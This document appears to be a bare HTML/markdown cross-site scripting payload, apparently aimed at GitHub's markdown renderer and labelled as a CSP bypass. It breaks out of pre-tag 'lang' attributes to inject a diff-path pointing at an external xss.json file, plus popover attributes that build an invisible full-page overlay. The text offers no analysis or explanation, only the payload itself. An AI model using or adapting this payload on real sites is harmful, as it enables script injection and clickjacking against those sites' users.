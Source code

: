 <a>
    <pre lang='/" data-diff-for-path=https://raw.githubusercontent.com/mathschat16/mathschat16.github.io/main/xss.json '>
        <code lang="wavedrom">csp</code>
    </pre>
    <pre
        lang='/" id=stage1 style="position:absolute;max-width:10000px;left:-1000px;top:-1000px;width:10000px;height:10000px;z-index:10000;" data-triggers="click" data-toggle=popover data-html=true data-title="aaa&lt;style&gt;#stage1{pointer-events:none}svg.chevron-right{position:absolute;max-width:10000px;left:-1000px;top:-1000px !important;width:10000px;height:10000px;z-index:10001;}&lt;/style&gt;bbb" data-content=ggg '>
    <code lang="wavedrom">
    bypass
    </code>
    </pre>
</a>
